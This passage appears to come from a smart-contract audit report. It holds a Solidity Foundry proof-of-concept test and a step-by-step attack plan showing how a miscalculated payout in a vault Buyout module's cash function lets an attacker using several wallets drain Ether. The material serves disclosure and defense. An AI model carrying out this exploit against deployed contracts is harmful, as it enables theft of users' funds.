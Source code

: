 ```solidity
      2000,
      ""
  );
  /// ==================
  /// ===== SETUP END =====
  /// ==================

  /// Fraction balances:
  assertEq(getFractionBalance(alice.addr), 2000); // Alice: 2000
  assertEq(getFractionBalance(bob.addr), 6000); // Bob: 6000
  assertEq(getFractionBalance(eve.addr), 2000); // Eve: 2000

  bob.buyoutModule.start{value: 10 ether}(vault);

  assertEq(getETHBalance(buyout), 10 ether);

  /// Bob (proposer of buyout) transfered his fractions to buyout contract
  assertEq(getFractionBalance(buyout), 6000);

  vm.warp(rejectionPeriod + 1);

  bob.buyoutModule.end(vault, burnProof);

  /// Fraction balances after buyout ended:
  assertEq(getFractionBalance(alice.addr), 2000);  // Alice: 2000
  assertEq(getFractionBalance(bob.addr), 0); // Bob: 0
  assertEq(getFractionBalance(eve.addr), 2000); // Eve: 2000

  assertEq(getETHBalance(buyout), 10 ether);

  /// Alice cashes out 2000 fractions -> 5 ETH (correct amount)
  alice.buyoutModule.cash(vault, burnProof);

  assertEq(getFractionBalance(alice.addr), 0);
  assertEq(getETHBalance(alice.addr), 105 ether);

  /// Eve cashes out 2000 fractions -> REVERTS (internally it calculates Eve would receive 10 ETH instead of the entitled 5 ETH). If the contract holds sufficient Ether from other successful buyouts, Eve would receive the full 10 ETH
  eve.buyoutModule.cash(vault, burnProof);
}
```

**Additionally** to the demonstrated PoC in the test case, an attacker could intentionally create vaults with many wallets and exploit the vulnerability:

1.  Attacker deploys a vault with `10.000` fractions minted
2.  51% of fractions (`5.100`) are kept in the main wallet, all other fractions are distributed to 5 other self-controlled wallets (Wallets 1-5, `980` fractions each)
3.  With the first wallet, the attacker starts a buyout with `10 ether` - fractions are transferred into the `Buyout` contract as well as `10 ether`
4.  Attacker waits for `REJECTION_PERIOD` to elapse to call `Buyout.end` (51% of fractions are already held in the contract, therefore no need for voting)
5.  After the successful buyout, the attacker uses the `Buyout.cash` function to cash out each wallet. Each subsequent cash-out will lead to receiving more Ether, thus stealing Ether from the `Buyout` contract:
    1.  Wallet 1 - `buyoutShare = (980 * 10 ) / (3920 + 980) = 2 ether` (`totalSupply = 3920` after burning `980` fractions from wallet 1)
    2.  Wallet 2 - `buyoutShare = (980 * 10 ) / (2940 + 980) = 2.5 ether` (`totalSupply = 2940` after burning `980` fractions from wallet 2)
    3.  Wallet 3 - `buyoutShare = (980 * 10 ) / (1960 + 980) = ~3.3 ether` (`totalSupply = 1960` after burning `980` fractions from wallet 3)
    4.  Wallet 4 - `buyoutShare = (980 * 10 ) / (980 + 980) = 5 ether` (`totalSupply = 980` after burning `980` fractions from wallet 4)
